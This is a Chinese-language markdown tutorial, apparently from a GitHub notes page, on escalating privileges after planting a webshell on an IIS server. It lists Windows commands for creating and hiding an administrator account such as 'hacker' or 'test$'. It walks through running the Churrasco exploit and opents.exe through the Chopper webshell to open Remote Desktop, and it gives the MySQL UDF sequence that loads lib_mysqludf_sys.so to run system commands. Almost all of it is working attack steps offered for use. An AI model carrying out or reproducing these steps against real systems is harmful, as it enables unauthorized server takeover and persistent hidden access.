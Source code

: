
安装了IIS之后，系统会自动添加两个账号：
IUSR_*，Web客户端的匿名访问账号，Guest组的成员。
IWAM_*，IIS应用程序的运行账号，IIS_WPG组的成员。


获取了Webshell，其实就是获得了IUSR_*账号的使用权限。通常对于本站目录具有读、写、修改权限。
提权的最终目的是为了获取Administrators组权限。

```
系统提权的基本命令：：
net user                                 查看计算机中所有的账号
net user administrator                   查看账号 administrator 的信息
net user hacker 123 /add                 在计算机中增加用户名为 hacker 密码是 123 的账号
net user hacker 456                      修改账号 hacker 的密码为 456
net user hacker /del                     删除账号 hacker
net user guest /active:yes(no)           启用(禁用) guest 账号
net localgroup                           显示当前系统里所有的组
net localgroup Administrators            查看 Administrators 组里有哪些成员
net localgroup Administrators guest /add 将 guest 账号添加到 Administrators 组里
net localgroup Administrators guest /del 将 guest 账号从 Administrators 组里移除
net user test$ 123 /add                  简单的隐藏账号，在命令提示符中看不到
whoami                                   查看当前用户
whoami /all                              查看更多的信息
churrasco "命令"                         使用工具 churrasco 执行由于权限低不能执行的命令
```
#### 提权步骤：
一、添加账号
```
1、在菜刀里执行虚拟终端，权限不够，上传自己的cmd.exe（wwwroot，UploadFiles，RECYCLER（回收站））
2、查看有权限，写入没权限，上传工具：Churrasco.exe（巴西烤肉），虚拟终端中将路径切换到 Churrasco 的所在目录
   然后执行命令 churrasco "net user hacker 123 /add"  即可
3、执行命令 churrasco "net localgroup Administrators hacker /add" 就可以添加 hacker 账号到管理员组
4、链接远程桌面需要查看端口3389是否开放 执行命令 netstat -an  查看端口是否开放
5、提权需要开3389，利用工具 opents.exe ,上传
6、要执行 opents.exe ,需使用 churrasco 执行命令  churrasco "opents.exe"   再 netstat -an 查看3389已经开启
7、使用远程桌面 mstsc ，输入对方的IP 即可登录，提权完成。
```
### 主要提权方式
##### １，得到插件库路径
```php
show valiables like '%plugin%';
```
##### ２，找对应操作系统的udf库文件,对于udf文件，在sqlmap工具中自带就有，只要找对应操作系统的版本即可
##### 3.利用udf库文件加载函数并执行命令首先要得到udf库文件的十六进制格式，可在本地通过
```php
mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
```
##### 数据库写入udf库到mysql库目录
'''php
mysql> select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
'''
##### 加载函数并执行
```php
mysql> create function sys_eval returns string soname "mysqludf.so";
```
##### 查看有没有加载函数成功
```php
select * from mysql.func;
```
####使用
```php
select sys_eval('ls');
```